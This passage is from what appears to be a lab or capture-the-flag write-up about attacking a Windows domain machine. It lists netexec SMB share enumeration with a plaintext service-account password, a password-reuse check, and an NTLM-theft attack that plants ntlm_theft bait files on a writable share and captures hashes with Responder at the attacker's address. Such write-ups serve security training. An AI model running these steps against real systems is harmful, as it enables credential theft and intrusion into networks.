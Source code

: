 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906173524.png)

Enumerating shares I spot that the share folder are probably C://Users and sites location and Shared is empty

```
nxc smb 10.10.11.187 -u 'SVC_APACHE' -p 'S@Ss!K@*t13' --share Web --dir
nxc smb 10.10.11.187 -u 'SVC_APACHE' -p 'S@Ss!K@*t13' --share Users --dir
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906173750.png)

I saved all users in usernames.txt

```
cat users.txt | awk '{print $5}' > usernames.txt 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906173953.png)

asreproasting and kerberoasting without hit but then I checked for password reused:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906175035.png)

and we got s.moon account
we see that now we can write to Shared folder 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906175411.png)

I once did something similar so it immediately came to my mind ntlm theft
https://github.com/Greenwolf/ntlm_theft

created and navigated to test files in my opt directory 

```
python3 ntlm_theft.py -g all -s 10.10.14.8 -f test
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906180321.png)

starting Responder in Analyze mode again

```
responder -I tun0 -A
```

and put all files

```
smbclient \\\\10.10.11.187\\Shared -U S.Moon
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906181111.png)

and after few seconds I got hit by c.bum

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906181526.png)
